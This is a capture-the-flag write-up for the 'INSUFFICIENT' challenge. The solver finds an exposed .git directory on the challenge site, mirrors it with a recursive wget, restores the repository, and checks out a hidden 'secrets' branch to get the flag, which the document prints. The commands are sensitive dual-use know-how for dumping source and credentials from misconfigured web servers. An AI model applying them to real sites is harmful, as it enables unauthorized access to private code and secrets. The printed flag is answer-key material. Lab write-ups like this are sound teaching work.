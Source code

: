 # INSUFFICIENT
**Author:** starsiv

## Description
This website is from a developer that left the company to focus 100% on CTFs. When he left, he was mumbling something about a secret he had hidden in the git repo... Can you help us find it? He is lazy and well known to clone git, deploy on the spot and leave everything...

Site: [insufficient.io.ept.gg](http://insufficient.io.ept.gg)

## Solve
**By Tuxern**

Sadly, we didn't realize this was one of the leaked challenges, and it gave 0 points, but still, it was a fun challenge.

### Investigation
I investigated the website insufficient.io.ept.gg and found several pieces of information that could be helpful in uncovering the secret hidden in the git repository by the developer:

- **Git Configuration:** The git configuration file revealed the origin repository as `git@github.com:lunarlattice/insufficient`. This indicates the original source of the repository on GitHub. [View Git Config](http://insufficient.io.ept.gg/.git/config)

- **Git Objects:** I found a directory listing for Git objects, specifically two pack files: `pack-532d48c0f53ffd3bb8051bb78cf356823e6ed292.idx` and `pack-532d48c0f53ffd3bb8051bb78cf356823e6ed292.pack`. These files contain the actual contents of the Git objects and might hold the secret. [View Git Objects](http://insufficient.io.ept.gg/.git/objects/pack/)

- **Git Logs:** The Git logs show the initial clone operation from the GitHub repository `github.com:lunarlattice/insufficient`. This could indicate the starting point of the repository's history. [View Git Log for HEAD](http://insufficient.io.ept.gg/.git/logs/HEAD) and [Git Log for Main Branch](http://insufficient.io.ept.gg/.git/logs/refs/heads/main)

### Next Steps
To further investigate, we devised the following plan:

1. Examine the contents of the pack files in the Git objects directory.
2. Clone the repository from the GitHub URL mentioned in the git config to explore its complete history and check for any hidden branches, commits, or tags that might contain the secret.
3. Check the GitHub repository for any issues, pull requests, or wiki pages that might reference the secret.

### Commands Executed
```
wget --recursive --no-parent http://insufficient.io.ept.gg/.git/
```

### Terminal Output
```
dev@dev:~/ctf/git/insufficient.io.ept.gg$ ll
total 12
drwxr-xr-x 3 dev dev 4096 Nov 11 15:03 ./
drwxr-xr-x 3 dev dev 4096 Nov 11 15:03 ../
drwxr-xr-x 8 dev dev 4096 Nov 11 15:03 .git/
dev@dev:~/ctf/git/insufficient.io.ept.gg$ git init
Reinitialized existing Git repository in /home/dev/ctf/git/insufficient.io.ept.gg/.git/
dev@dev:~/ctf/git/insufficient.io.ept.gg$ git reset --hard
HEAD is now at c093df8 add dockerfile and cleanup
dev@dev:~/ctf/git/insufficient.io.ept.gg$ git log --oneline
c093df8 (HEAD -> main, origin/main, origin/HEAD) add dockerfile and cleanup
1fee9c5 move this one
a36d52f Create notes.md
41c349f move this one
90357d3 Create notes.md
1cf376e changed presentation
8a09ab3 startfiles
dedb1ee Initial commit
dev@dev:~/ctf/git/insufficient.io.ept.gg$ git branch -a
git tag
warning: ignoring broken ref refs/heads/index.html
warning: ignoring broken ref refs/index.html
warning: ignoring broken ref refs/remotes/index.html
warning: ignoring broken ref refs/remotes/origin/index.html
warning: ignoring broken ref refs/tags/index.html
* main
  remotes/origin/HEAD -> origin/main
  remotes/origin/main
  remotes/origin/secrets
warning: ignoring broken ref refs/tags/index.html
dev@dev:~/ctf/git/insufficient.io.ept.gg$ cat index.html
...
dev@dev:~/ctf/git/insufficient.io.ept.gg$ ls
3drectangle.js  Dockerfile  README.md  ept.png  index.html  starfield.js
```

### Finding the Secret
Running `git checkout secrets` revealed a file which contained the flag.

Flag: `EPT{1n5uff1c13n7_cr3d3n7141_hy613n3}`
